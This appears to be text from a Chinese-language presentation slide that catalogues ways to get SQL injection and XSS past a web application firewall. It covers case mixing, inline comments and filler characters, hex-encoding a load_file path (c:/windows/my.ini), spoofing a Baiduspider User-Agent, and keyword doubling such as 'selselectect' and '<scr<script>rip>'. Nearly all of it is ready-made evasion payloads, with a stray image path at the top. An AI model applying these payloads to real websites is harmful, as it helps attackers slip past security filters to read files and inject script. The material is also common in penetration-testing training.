

大小写转换法：
SQL：sEleCt vERsIoN();
‍‍XSS：<sCrIpt>alert(1)</script>

干扰字符法：
SQL：sEleCt+1-1+vERsIoN   /*!*/       ();`yohehe‍‍
‍‍SQL2：select/*!*/`version`();

字符编码法：
SQL:load_file(0x633A2F77696E646F77732F6D792E696E69)

花式绕
 WAF
WAF对某些User-Agent特殊放行（如百度spider 的UA）
User-agent: Baiduspider

拼凑法：
SQL：selselectect verversionsion();
‍‍‍‍XSS： <scr<script>rip>